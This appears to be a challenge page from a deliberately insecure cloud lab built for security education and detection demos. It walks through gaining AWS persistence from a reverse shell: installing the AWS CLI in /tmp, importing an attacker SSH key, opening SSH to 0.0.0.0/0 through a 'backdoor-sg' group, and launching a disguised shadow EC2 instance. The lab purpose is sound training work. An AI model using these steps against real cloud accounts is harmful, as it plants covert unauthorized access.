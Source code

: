# 🔥 Vulnerable Labs: Persistence Pays Off!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to leverage excessive permissions and misconfigurations to gain persistence in a cloud environment.

Mitre ATT&CK defines persistence as techniques to allow adversaries to maintain their access to systems and devices across restarts and other interruptions. 


### 🎯 Your Mission

1. On your laptop, open a terminal and run the following command to generate a new SSH keypair:
```bash
ssh-keygen -t rsa -f attacker_key
```
2. Update the permissions on the generated keys 
```bash
chmod 0600 attacker_key*
```
3. Run the following command to obtain the attacker_key public key. Note it down as you'll need this shortly.
```bash
cat attacker_key.pub
```
4. Ensure your reverse shell to the webserver is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
5. Run the following commands to install the AWS CLI (note we're using the tmp directory which is writeable):
```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "/tmp/awscliv2.zip" && unzip /tmp/awscliv2.zip -d /tmp/aws && cd /tmp/aws && ./aws/install --install-dir /tmp/aws-cli --bin-dir /tmp/aws-cli-bin && /tmp/aws-cli-bin/aws sts get-caller-identity
```
6. Run the following command to create a file containing your attacker public key:
```bash
echo "{attacker_key.pub}" > /tmp/attacker_key.pub
```
`{attacker_key.pub}` refers to the output from Step 3 above.

7. Run the following command to import your SSH Public Key
```bash
/tmp/aws-cli-bin/aws ec2 import-key-pair --key-name attacker_key --public-key-material fileb:///tmp/attacker_key.pub
```
8. Run the following command to create a security group
```bash
/tmp/aws-cli-bin/aws ec2 create-security-group \
--group-name backdoor-sg \
--description "SSH access for attacker" \
--vpc-id $(/tmp/aws-cli-bin/aws ec2 describe-vpcs --query "Vpcs[0].VpcId" --output text)
```
9. Run the following command to create a security group rule:
```bash
/tmp/aws-cli-bin/aws ec2 authorize-security-group-ingress \
--group-id $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --filters "Name=group-name,Values=backdoor-sg" --query "SecurityGroups[0].GroupId" --output text) \
--protocol tcp \
--port 22 \
--cidr 0.0.0.0/0
```
10. Run the following command to launch a new shadow EC2 instance:
```bash
/tmp/aws-cli-bin/aws ec2 run-instances \
--instance-type t2.micro \
--image-id ami-0aa2b7722dc1b5612 \
--subnet-id $(/tmp/aws-cli-bin/aws ec2 describe-subnets --query "Subnets[?MapPublicIpOnLaunch].SubnetId | [0]" --output text) \
--tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=NothingToSeeHere}]' \
--security-group-ids $(/tmp/aws-cli-bin/aws ec2 describe-security-groups --filters Name=group-name,Values=backdoor-sg --query "SecurityGroups[0].GroupId" --output text) \
--key-name attacker_key \
--associate-public-ip-address
```
11. Run the following command to get the Public IP address of the newly created EC2 instance (you may need to wait for ~2 minutes for the instance to become running):
```bash
/tmp/aws-cli-bin/aws ec2 describe-instances \
  --filters "Name=tag:Name,Values=NothingToSeeHere" \
           "Name=instance-state-name,Values=running" \
  --query "Reservations[0].Instances[0].PublicIpAddress" \
  --output text

```
12. From your laptop (where you created your attacker_key) SSH to the newly created EC2 instance:
```bash
ssh -i attacker_key ubuntu@ip_address
```


Congratulations, you've completed this challenge. Can you now find the corresponding detection in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

